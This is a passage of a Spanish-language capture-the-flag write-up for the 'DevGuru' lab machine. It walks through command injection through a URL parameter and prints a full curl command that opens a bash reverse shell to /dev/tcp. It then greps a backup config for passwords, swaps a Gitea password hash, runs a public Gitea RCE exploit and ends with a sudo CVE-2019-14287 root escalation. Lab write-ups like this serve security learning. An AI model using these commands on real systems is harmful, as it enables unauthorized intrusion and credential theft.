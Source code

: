 >Si entramos a `http://$IP/services?cmd=whoami` podremos ver el output del comando.

![[Pasted image 20240219033001.png]]({%link assets/img/devguru/15.png%})

>Desde una consola, hacemos una petición HTTP con el comando `curl -s -G "http://$IP/services" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/myIP/myPort 0>&1'"`. Nos ponemos en escucha desde `myPort` y mandamos la petición.

![[Pasted image 20240219033600.png]]({%link assets/img/devguru/16.png%})

>¡Estamos dentro! Si nos vamos a `/var/`, veremos un archivo `app.ini.bak`. Si hacemos un `cat app.ini.bak | grep -i password -B 5 -A 5`:

![[Pasted image 20240219034159.png]]({%link assets/img/devguru/17.png%})

>Intentamos iniciar sesión nuevamente en Adminer con estas credenciales.

![[Pasted image 20240219034427.png]]({%link assets/img/devguru/18.png%})

>Nuevamente nos vamos a la sección de users en la base de datos `gitea`.

![[Pasted image 20240219034501.png]]({%link assets/img/devguru/19.png%})

>Entramos a editar el usuario. El algoritmo criptográfico de la contraseña es pbkdf2.

![[Pasted image 20240219034641.png]]({%link assets/img/devguru/20.png%})

>Cambiamos el algoritmo a bcrypt, y luego cambiamos la contraseña al hash que habíamos generado anteriormente. Intentamos entrar a la página de gitea que vimos al principio de la etapa de reconocimiento.

![[Pasted image 20240219035641.png]]({%link assets/img/devguru/21.png%})

>Tenemos la versión de gitea.

![[Pasted image 20240219035823.png]]({%link assets/img/devguru/22.png%})

>Podemos intentar buscar vulnerabilidades de esta versión con `searchsploit`. Buscando por internet, encontré el siguiente script para poder explotar una vulnerabilidad del tipo RCE (Remote Command Execution): https://www.exploit-db.com/exploits/49571.
>Ejecutamos el script y nos ponemos en escucha por el puerto indicado a la hora de ejecutar.

![[Pasted image 20240219040215.png]]({%link assets/img/devguru/23.png%})

>¡Bien! Ya migramos al usuario frank. Tenemos la flag.

![[Pasted image 20240219041239.png]]({%link assets/img/devguru/24.png%})

>Empezamos a enumerar.

![[Pasted image 20240219040313.png]]({%link assets/img/devguru/25.png%})

>Podemos ejecutar como todos los usuarios el binario `/usr/bin/sqlite3` exceptuando el usuario `root`, sin brindar contraseña. Esto puede llegar a ser crítico dependiendo de la versión de sudo.
>Checkeamos la versión con `sudo --version`, y vemos que está en la 1.8.21p. Es vulnerable al CVE 2019-14287 (Demo: https://www.exploit-db.com/exploits/47502). 

![[Pasted image 20240219040906.png]]({%link assets/img/devguru/26.png%})
![[Pasted image 20240219040947.png]]({%link assets/img/devguru/27.png%})

>¡Listo! Ya somos root y pwneamos la máquina.

>¡Muchas gracias por leer!
